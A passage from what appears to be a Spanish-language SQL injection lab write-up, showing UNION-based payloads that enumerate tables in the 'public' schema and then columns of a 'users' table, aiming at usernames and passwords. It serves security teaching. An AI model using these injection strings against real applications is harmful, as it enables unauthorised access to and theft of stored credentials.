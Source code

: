 ![](/assets/images/ports-writeup-sqli/web23.png)

Podemos indicarle de cual base de datos queremos saber las tablas de la base de datos `public` con la siguiente **query** `' union select NULL,table_name from information_schema.tables where table_schema='public'-- -` 

![](/assets/images/ports-writeup-sqli/web24.png)

La tabla **users** esta interesante lo mas probable es que hay estén las columnas usernames y password 

Ahora vamos a dumpear las columnas para la tabla **users** y para la base de datos **public** esta seria la query `' union select column_name,NULL from information_schema.columns where table_schema ='public' and table_name='users'-- - ` 

Si aplicamos la `query` vemos las columnas existentes
